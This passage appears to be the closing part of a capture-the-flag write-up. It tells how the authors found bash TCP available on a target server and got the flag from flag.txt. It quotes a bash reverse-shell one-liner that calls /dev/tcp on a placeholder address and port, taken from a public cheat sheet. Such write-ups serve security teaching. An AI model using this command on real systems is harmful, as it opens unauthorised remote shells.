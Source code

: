 With all of this we were able to figure out that bash tcp was available. Looking into
one of the many [Reverse Shell cheat
sheets](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/0a75beeccdb714fce2645507a7d5ee8e4a25f0bf/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
we used `bash -i >& /dev/tcp/ADDR/PORT 0>&1` (see `bash(1)`) in order to obtain a
remote shell to the pwned server and get content out of it. The rest from here was
easy, and we found the flag in the `./flag.txt` file.

Sadly the server isn't online anymore, and we didn't write down the flag. So no flag
statement at the end here.

